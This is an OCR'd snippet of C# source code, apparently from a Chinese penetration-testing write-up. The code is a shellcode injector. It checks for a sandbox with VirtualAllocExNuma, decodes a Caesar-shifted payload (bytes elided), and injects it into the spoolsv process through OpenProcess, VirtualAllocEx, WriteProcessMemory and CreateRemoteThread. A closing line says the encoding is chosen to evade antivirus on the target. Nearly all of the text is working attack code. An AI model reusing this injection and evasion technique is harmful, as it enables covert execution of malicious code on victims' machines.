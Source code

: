 ```csharp
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
            [DllImport("kernel32.dll")]
            static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
            [DllImport("kernel32.dll")]
            static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
            [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
            static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
            [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
            public static extern IntPtr GetModuleHandle(string lpModuleName);
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetCurrentProcess();
        static void Main(string[] args)
            {
                IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4,0);
                if (mem == null)
                {
                    return;
                }
                byte[] buf = new byte[638] { 0xfe, 0x4a, ... };
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
                }
                int size = buf.Length;
                Process[] expProc = Process.GetProcessesByName("spoolsv");
                int pid = expProc[0].Id;
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
                IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0,IntPtr.Zero);
            }
        }
    
}

```
由于目标机器上大概率存在av，故使用凯撒移位
